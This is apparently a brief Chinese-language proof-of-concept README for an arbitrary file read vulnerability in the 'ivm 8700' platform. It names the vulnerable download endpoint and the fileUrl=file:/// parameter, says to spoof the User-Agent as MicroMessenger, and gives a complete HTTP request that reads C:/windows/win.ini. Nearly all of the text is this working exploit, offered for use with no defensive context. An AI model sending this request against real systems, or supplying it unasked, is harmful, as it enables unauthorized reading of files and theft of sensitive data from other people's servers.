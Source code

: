 # poc
ivm 8700 平台存在任意文件读取漏洞
接口地址为/eps/triggerSnapshot/download.action
添加参数?fileUrl=file:///
然后修改UA头为MicroMessenger
完整路径例如
GET /eps/triggerSnapshot/download.action?fileUrl=file:///C:/windows/win.ini HTTP/1.1
Host: IP
User-Agent: MicroMessenger
